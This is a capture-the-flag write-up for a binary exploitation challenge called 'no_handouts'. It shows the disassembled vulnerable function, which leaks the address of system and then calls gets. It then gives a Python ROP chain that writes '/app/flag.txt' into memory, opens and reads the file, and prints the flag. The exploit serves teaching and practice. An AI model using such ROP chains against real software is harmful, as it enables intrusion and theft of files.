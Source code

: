 # no_handouts

This challenge provided no source code, but it did provide a binary `chall`.

Disassembling it, I saw that the `main` function called `vuln`, which is as follows:

```asm
<vuln>:
endbr64
push   %rbp
mov    %rsp,%rbp
sub    $0x20,%rsp
lea    0xe05(%rip),%rax    ; "system() only works if there's a shell in the first place!"
mov    %rax,%rdi
call   puts
mov    0x2dce(%rip),%rax   ; system
mov    %rax,%rsi
lea    0xe2c(%rip),%rax    ; "Don't believe me? Try it yourself: it's at %p"
mov    %rax,%rdi
mov    $0x0,%eax
call   printf
lea    0xe48(%rip),%rax    ; "Surely that's not enough information to do anything else."
mov    %rax,%rdi
call   puts
lea    -0x20(%rbp),%rax
mov    %rax,%rdi
mov    $0x0,%eax
call   gets
mov    $0x0,%eax
leave
ret
```

So this just says where `system` is, and then cals `gets` to provide a free buffer overflow.
It's also given that the flag is located at `/app/flag.txt`

Using the provided location of `system`, we know where `libc` is located. Thanks to this, we can open() the flag, read() its contents, and then puts() the result.

Here's the ROP chain that worked for me:

```python
start_addr = elf_libc.bss() # readable/writable section. We can use this as a buffer
filename = start_addr + 0x00
flag = start_addr + 0x20

flag_length = 50 # INCREASE IF NOT SUFFICIENT
rop_chain = [

             # build "/app/flag.txt" string
             pop_rax, libc + filename,
             pop_rdx_r12, 0x616C662F7070612F, 0, # /app/fla
             mov_at_rax_rdx,  # this gadget is mov qword ptr [rax], rdx ; ret
             pop_rax, libc + filename + 8,
             pop_rdx_r12, 0x7478742E67, 0,       # g.txt
             mov_at_rax_rdx,

             # open file
             pop_rdi, libc + filename,
             pop_rsi, 0,
             pop_rdx_r12, 0, 0,
             open_c,

             # read file
             pop_rdi, 3, # guess at fd, (first fd after STDIN, STDOUT, and STDERR)
             pop_rsi, libc + flag,
             pop_rdx_r12, flag_length, 0,
             read,

             # write value
             pop_rdi, libc + flag,
             puts,
            ]
```

After injecting that, I got this output: `bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}`
As this flag says, this is not the only way this could've been solved.



